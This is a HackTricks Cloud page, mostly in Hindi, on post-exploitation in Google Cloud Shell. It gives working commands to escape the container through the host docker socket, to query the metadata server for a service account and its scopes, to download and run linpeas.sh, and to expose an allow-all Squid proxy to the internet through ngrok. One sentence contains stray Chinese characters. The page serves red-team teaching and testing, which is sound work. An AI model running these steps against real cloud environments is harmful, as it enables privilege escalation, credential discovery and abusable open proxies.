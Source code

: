 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Cloud Shell के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

ध्यान दें कि Google Cloud Shell एक कंटेनर के अंदर चलता है, आप **आसानी से होस्ट पर भाग सकते हैं** ऐसा करने से:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

यह गूगल द्वारा एक कमजोरी नहीं मानी जाती, लेकिन यह आपको उस वातावरण में हो रही घटनाओं का व्यापक दृष्टिकोण देती है।

इसके अलावा, ध्यान दें कि होस्ट से आप एक सेवा खाता टोकन पा सकते हैं:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

निम्नलिखित स्कोप के साथ:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS के साथ मेटाडेटा की गणना करें:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf_my_gcp_permissions) का उपयोग करने के बाद **कोई अनुमति नहीं मिली**...

### इसे प्रॉक्सी के रूप में उपयोग करें

यदि आप अपने गूगल क्लाउड शेल इंस्टेंस का प्रॉक्सी के रूप में उपयोग करना चाहते हैं, तो आपको निम्नलिखित कमांड चलाने की आवश्यकता है (या उन्हें .bashrc फ़ाइल में डालें):
```bash
sudo apt install -y squid
```
बस आपको बताने के लिए कि Squid एक http प्रॉक्सी सर्वर है। एक **squid.conf** फ़ाइल निम्नलिखित सेटिंग्स के साथ बनाएं:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** फ़ाइल को **/etc/squid** में कॉपी करें
```bash
sudo cp squid.conf /etc/squid
```
अंत में स्क्विड सेवा चलाएँ:
```bash
sudo service squid start
```
ngrok का उपयोग करें ताकि प्रॉक्सी बाहर से उपलब्ध हो सके:
```bash
./ngrok tcp 3128
```
tcp:// यूआरएल कॉपी करने के बाद चलाएँ। यदि आप ब्राउज़र से प्रॉक्सी चलाना चाहते हैं, तो tcp:// भाग और पोर्ट को हटा देना और अपने ब्राउज़र प्रॉक्सी सेटिंग्स के पोर्ट फ़ील्ड में पोर्ट डालना सुझावित है (squid एक http प्रॉक्सी सर्वर है)।

शुरुआत में बेहतर उपयोग के लिए .bashrc फ़ाइल में निम्नलिखित पंक्तियाँ होनी चाहिए:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
The instructions were copied from [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). उस पृष्ठ पर Cloud Shell में किसी भी प्रकार的软件 (डेटाबेस और यहां तक कि विंडोज) चलाने के लिए अन्य पागल विचारों की जांच करें।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

